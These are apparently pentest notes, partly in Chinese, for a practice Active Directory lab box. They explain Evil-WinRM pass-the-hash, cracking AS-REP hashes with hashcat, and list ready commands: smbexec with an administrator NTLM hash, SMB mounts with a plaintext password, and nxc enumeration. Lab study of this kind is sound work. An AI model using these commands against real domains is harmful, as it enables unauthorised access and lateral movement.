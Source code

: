 **关于 Evil-WinRM 和哈希传递（Pass-the-Hash, PtH）的说明：**

1. **Evil-WinRM 的** `**H**` **参数支持 NTLM 哈希直接认证**
    - Evil-WinRM 可以通过 `**H**` 参数直接使用 **NTLM 哈希**（格式如 `**LMHASH:NTHASH**` 或 `**:NTHASH**`）进行身份验证，无需破解明文密码。
    - 示例命令：bash evil-winrm -i 10.10.10.161 -u svc-alfresco -H 'aad3b435b51404eeaad3b435b51404ee:...'
2. **AS-REP 哈希（Kerberos）与 NTLM 哈希的区别**
    - 你当前拥有的哈希格式是 `**$krb5asrep$23$...**`，这是 **Kerberos AS-REP 哈希**，用于离线破解（如 Hashcat 的 `**m 18200**` 模式）。
    - **Evil-WinRM 不支持直接使用 AS-REP 哈希**，因为它仅适用于 NTLM 认证协议。
3. **如何利用 AS-REP 哈希？**
    - **方法 1：破解哈希获取明文密码**
        
        使用 Hashcat 破解 AS-REP 哈希，得到明文密码后通过 Evil-WinRM 登录：
        
        bash  
        hashcat -m 18200 asrep_hashes.txt rockyou.txt  
        evil-winrm -i 10.10.10.161 -u svc-alfresco -p '破解后的密码'
        
    - **方法 2：转换为 NTLM 哈希（需域内权限）**
        
        如果已通过其他方式（如 `**secretsdump.py**`）获取用户的 NTLM 哈希，可直接用于 Evil-WinRM：
        
        bash  
        evil-winrm -i 10.10.10.161 -u svc-alfresco -H 'NTLM哈希'
        
4. **Kerberos 认证的替代方案**
    
    若需直接使用 Kerberos 协议（如 AS-REP 哈希衍生的 TGT 票据），需借助其他工具（如 Impacket 的 `**ticketer.py**`），但 Evil-WinRM 本身不支持。
    

---

**总结：**

- **AS-REP 哈希 → 必须破解为明文密码** 或 **转换为 NTLM 哈希** 才能用于 Evil-WinRM。
- **NTLM 哈希 → 可直接通过** `**H**` **参数传递认证**。

if have name and hash, can use evil-winrm, also use

```PowerShell
 smbexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6' 'administrator@10.10.10.161'
```

```PowerShell
mount_smbfs -N '//svc-alfresco:s3rvice@10.10.10.161/SYSVOL' ./share
```

```PowerShell
smbclient  "\\\\10.10.10.161\\SYSVOL" -U "svc-alfresco" -password s3rvice
```

```PowerShell
nxc smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares
```

```PowerShell
nxc smb 10.10.10.161 -u svc-alfresco -p s3rvice --users
```
